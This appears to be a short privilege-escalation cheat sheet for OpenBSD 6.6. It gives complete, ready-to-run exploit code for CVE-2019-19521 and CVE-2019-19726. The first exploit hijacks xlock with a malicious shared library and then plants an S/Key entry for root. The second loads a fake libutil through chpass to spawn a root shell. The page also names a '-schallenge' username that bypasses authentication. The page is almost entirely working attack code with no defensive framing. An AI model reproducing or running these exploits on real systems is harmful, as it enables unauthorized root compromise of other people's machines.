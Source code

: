 # OpenBSD

### [CVE-2019-19521](https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt)

Works in OpenBSD 6.6.

```bash
cat > swrast_dri.c << "EOF"
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
EOF
gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c
env -i /usr/X11R6/bin/Xvfb :82 -cc 0 &
env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :82
echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
chmod 0600 /etc/skey/root
env -i TERM=vt220 su -l -a skey
EGG LARD GROW HOG DRAG LAIN
id
```

If login\_passwd is used we can provide the username `-schallenge` to bypass authentication.

### [CVE-2019-19726](https://www.exploit-db.com/exploits/47780)

Works on OpenBSD 6.6.

```bash
cd /tmp
cat > lib.c << "EOF"
#include <paths.h>
#include <unistd.h>

static void __attribute__ ((constructor)) _init (void) {
    if (setuid(0) != 0) _exit(__LINE__);
    if (setgid(0) != 0) _exit(__LINE__);
    char * const argv[] = { _PATH_KSHELL, "-c", _PATH_KSHELL "; exit 1", NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
EOF

gcc -fpic -shared -s -o libutil.so.13.1 lib.c

cat > poc.c << "EOF"
#include <string.h>
#include <sys/param.h>
#include <sys/resource.h>
#include <unistd.h>

int
main(int argc, char * const * argv)
{
    #define LLP "LD_LIBRARY_PATH=."
    static char llp[ARG_MAX - 128];
    memset(llp, ':', sizeof(llp)-1);
    memcpy(llp, LLP, sizeof(LLP)-1);
    char * const envp[] = { llp, "EDITOR=echo '#' >>", NULL };

    #define DATA (ARG_MAX * sizeof(char *))
    const struct rlimit data = { DATA, DATA };
    if (setrlimit(RLIMIT_DATA, &data) != 0) _exit(__LINE__);

    if (argc <= 1) _exit(__LINE__);
    argv += 1;
    execve(argv[0], argv, envp);
    _exit(__LINE__);
}
EOF
gcc -s -o poc poc.c
./poc /usr/bin/chpass
```

